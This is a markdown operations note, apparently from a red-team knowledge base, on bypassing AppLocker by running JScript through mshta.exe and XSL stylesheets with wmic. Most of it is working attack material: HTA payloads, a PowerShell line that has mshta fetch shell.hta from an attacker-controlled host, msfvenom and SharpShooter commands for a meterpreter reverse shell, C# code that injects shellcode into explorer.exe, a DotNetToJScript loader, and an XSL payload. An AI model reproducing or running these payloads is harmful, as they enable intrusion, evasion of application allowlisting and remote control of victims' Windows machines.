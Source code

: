 ```yaml
---
title: Jscript AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - bypass
  - jscript
  - allowlist
  - whitelist
---
```


## Microsoft HTML Applications

**Microsoft HTML Applications (MSHTA)** is a vector for client-side attacks to
execute **JScript** payloads, allowing us to execute `.hta` files with the
`mshta.exe` application. Here's an example payload so we can better understand
its structure:

```html
<html>
  <head>
    <script language="JScript">
      var shell = new ActiveXObject("WScript.Shell")
      var res = shell.Run("cmd.exe")
    </script>
  </head>
  <body>
    <script language="JScript">
      self.close()
    </script>
  </body>
</html>
```

Given the structure of this payload, we can see how we would go about smuggling
our malicious JScript. Here's an example invocation of this payload using
`mshta.exe`:

```powershell
$lHost = ${LHOST}
$lPort = ${LPORT}
. (Get-Command -Name "mshta.exe").Source "http://${lHost}:${lPort}/shell.hta"
```

### MSHTA and SharpShooter

Using [SharpShooter](https://github.com/X0RW3LL/SharpShooter/tree/master) we can
generate an `.hta` payload to deliver a **meterpreter** reverse shell payload.
We invoke the following to generate our meterpreter reverse shell payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f raw -o shell.txt
```

And we can generate our **SharpShooter** `.hta` payload by invoking the
following:

```bash
python ~/opt/SharpShooter/SharpShooter.py --payload hta --dotnetver 4 --stageless --rawscfile shell.txt --output shell
```

### MSHTA and DotNetToJScript

Using [DotNetToJscript](https://github.com/tyranid/DotNetToJScript), we can
generate an `.hta` payload to deliver a `meterpreter` reverse shell payload that
uses process injection. We start by building a **.NET Framework** assembly with
the following C# .NET code:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(
    uint processAccess,
    bool bInheritHandle,
    int processId
    );

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect
    );

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        IntPtr lpThreadId
    );

    public TestClass()
    {
        int explorerId = Process.GetProcessesByName("explorer")[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, explorerId);
        IntPtr addr =
            VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        byte[] buf = new byte[854] {
            0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41,
            // ...
            0xc2, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5
        };
        _ = WriteProcessMemory(hProcess, addr, buf, buf.Length, out _);
        _ = CreateRemoteThread(
            hProcess,
            IntPtr.Zero,
            0,
            addr,
            IntPtr.Zero,
            0,
            IntPtr.Zero
        );
    }
}
```

We invoke the following to use **DotNetToJScript** to generate a JScript payload
that will invoke the code within our process injection assembly:

```powershell
DotNetToJScript.exe --lang=JScript -o="pwn.js" "ExampleAssembly.dll"
```

We can test that our `pwn.js` payload works by invoking:

```powershell
. (Get-Command -Name "wscript.exe").Source .\pwn.js
```

To reliably execute our JScript payload we use
[uglify-js](https://www.npmjs.com/package/uglify-js) to minify the payload -
here's an example invocation:

```bash
uglifyjs ./pwn.js > uglypwn.js
```

Finally, we construct our malicious `.hta` payload that contains our minified
DotNetToJScript JScript payload. This final payload will execute using MSHTA,
delivering a JScript payload that loads our assembly to conduct process
injection and execute a meterpreter reverse shell payload:

<!-- prettier-ignore-start -->
```html
<HTML><HEAD></HEAD><BODY><script language="javascript">function setversion(){}function debug(s){}function base64ToStream(b){var enc=new ActiveXObject("System.Text.ASCIIEncoding");var length=enc.GetByteCount_2(b);var ba=enc.GetBytes_4(b);var transform=new ActiveXObject("System.Security.Cryptography.FromBase64Transform");ba=transform.TransformFinalBlock(ba,0,length);var ms=new ActiveXObject("System.IO.MemoryStream");ms.Write(ba,0,length/4*3);ms.Position=0;return ms}var serialized_obj="${INSERT_SERIALIZED_ASSEMBLY_HERE}";var entry_class="TestClass";try{setversion();var stm=base64ToStream(serialized_obj);var fmt=new ActiveXObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");var al=new ActiveXObject("System.Collections.ArrayList");var d=fmt.Deserialize_2(stm);al.Add(undefined);var o=d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)}catch(e){debug(e.message)}</script><script language="vbscript">self.close</script></body></html>
```
<!-- prettier-ignore-end -->

## XSL

We can also gain arbitrary JScript code executing using **Extensible Stylesheet
Language (XSL)** documents. Here's an example `.xsl` document to gain JScript
code execution:

```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

We can execute this payload using the **Windows Management Instrumentation
(WMI)** command line application, `wmic`. Here's an example invocation to
execute our `.xsl` file:

```powershell
Start-Process `
	-FilePath (Get-Command -Name "wmic").Source `
	-ArgumentList @("os", "get", '/format:"C:\Tools\shell.xsl"')
```
